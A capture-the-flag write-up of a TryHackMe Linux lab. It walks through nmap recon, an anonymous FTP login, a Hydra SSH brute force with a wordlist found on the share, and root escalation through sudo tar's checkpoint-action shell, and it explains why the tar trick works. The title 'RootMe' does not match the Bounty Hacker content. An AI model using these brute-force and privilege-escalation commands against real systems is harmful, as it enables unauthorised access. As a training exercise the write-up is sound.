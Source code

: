 ```yaml
---
title: RootMe
date: 2025-08-21
categories: [ctf, tryhackme]
tags: [linux, ftp, tar]     # TAG names should always be lowercase
---
```


Hi folks, I hope you all are doing well.

This CaptureTheFlag is about service misconfiguration, where it’s possible to connect into the target using FTP with the user Anonymous and use the tar command to escalate the privileges to root.
To avoid this kind of situation, the SA (System Administrator) should not let services like FTP configured wrong and should take care of the sudo permission, avoiding to let commands like tar to be executed as root to anyone.

So let’s get started.

First thing first, the recon. In this case, it has been used the “nmap”, as per output below:

```
[john@linux bounty_hacker]$ nmap -sV -A 10.10.183.218
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| -rw-rw-r--    1 ftp      ftp           418 Jun 07  2020 locks.txt
|_-rw-rw-r--    1 ftp      ftp            68 Jun 07  2020 task.txt
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.8.85.35
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 1
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 dcf8dfa7a6006d18b0702ba5aaa6143e (RSA)
|   256 ecc0f2d91e6f487d389ae3bb08c40cc9 (ECDSA)
|_  256 a41a15a5d4b1cf8f16503a7dd0d813c2 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

It’s notable that the Anonymous FTP login is allowed, where it only needs to run “ftp \<ipaddr\>”, providing the user “Anonymous”, to connect into the target.

```
[john@linux bounty_hacker]$ ftp 10.10.124.107
Connected to 10.10.124.107.
220 (vsFTPd 3.0.3)
Name (10.10.124.107:john): Anonymous
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp>
```

Using the command “ls” inside the ftp, it will return two files, the “locks.txt” and the “task.txt”. It can be downloaded with “get \<file\>” command.

```
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-rw-r--    1 ftp      ftp           418 Jun 07  2020 locks.txt
-rw-rw-r--    1 ftp      ftp            68 Jun 07  2020 task.txt
226 Directory send OK.
ftp>
```

After inspect those files, it’s possible to get the answer to the THM Question “Who wrote the task list?” and see that the file “locks.txt” is a password wordlist. Since we have a user (lin), a target (the machine), a service (ssh) and a wordlist (locks.txt), it’s valid to brute force it, as per below:

```
[john@linux bounty_hacker]$ hydra -l lin -P locks.txt ssh://10.10.183.218
Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-03-14 20:01:48
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 26 login tries (l:1/p:26), ~2 tries per task
[DATA] attacking ssh://10.10.183.218:22/
[22][ssh] host: 10.10.183.218   login: lin   password: <PASSWORD OMITTED>
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-03-14 20:01:54
```

In hands of the user and the user password, it’s possible to log into the server with ssh and get the first flag, user.txt, which is located inside the user’s Desktop.

Now, it’s needed to escalate the privileges.

There is different kinds of technics for this (.e.g. searching for some service, SUID binary, an so on). One of them is use the command "sudo -l" to list all command that it’s able to run as root. After execute this command inside the server, it will return that it’s able to execute tar as root.

```
lin@bountyhacker:~/Desktop$ sudo -l
[sudo] password for lin: 
Matching Defaults entries for lin on bountyhacker:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User lin may run the following commands on bountyhacker:
    (root) /bin/tar
```

This command (tar) allow the user to create backup of certain files.

Now, it’s easy to escalate to root. It just need to run "sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh" and the user will be the root user. Finally, being able to get the root.txt flag, located at /root.

```
lin@bountyhacker:~/Desktop$ sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
tar: Removing leading `/' from member names
# whoami
root
# ls -l /root
total 4
-rw-r--r-- 1 root root 19 Jun  7  2020 root.txt
#
```

For a lot of people, this is enough. But, why does that command has been used to escalate the privileges to root? What this command does?

This is pretty simple, the command is being executed with sudo, which means that the root user will run the command. Adding the flags -cf will allow tar to create a new file (the output), making a “backup” of /dev/null (anything) to /dev/null (anything). Until now, this command is doing nothing, basically, but the point is the "--checkpoint=1 --checkpoint-action=exec=/bin/sh", which means that it’s scheduled a new checkpoint before writing or reading each Nth record, in this case, the 1st record. Checkpoints also allow to periodically (before nth record), execute a arbitrary actions, which in this case is to execute the command /bin/sh.

Resuming, the command will make a backup of anything to nowhere, but before make this, it will execute /bin/sh (call a new shell) as root.

Thanks for the attention, I appreciate it so much.
I hope this “writeup” has been useful.